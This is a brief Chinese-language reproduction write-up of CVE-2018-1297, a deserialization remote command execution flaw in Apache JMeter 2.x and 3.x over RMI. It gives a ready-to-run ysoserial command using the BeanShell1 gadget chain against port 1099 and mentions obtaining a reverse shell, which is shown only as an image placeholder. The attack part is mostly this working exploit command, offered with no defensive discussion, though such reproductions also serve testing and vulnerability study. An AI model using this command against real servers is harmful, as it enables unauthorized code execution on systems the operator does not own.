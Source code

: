 # （CVE-2018-1297）Apache Jmeter RMI 反序列化命令执行漏洞

## 一、漏洞简介

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 二、漏洞影响

Apache JMeter 2.x版本

Apache JMeter 3.x版本

## 三、复现过程

直接使用ysoserial即可进行利用：

```shell
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit ip 1099 BeanShell1 'touch /tmp/success'
```

我们使用的是BeanShell1这条利用链。使用docker-compose exec jmeter bash进入容器，可见/tmp/success已成功创建：

1.png

反弹shell:

2.png
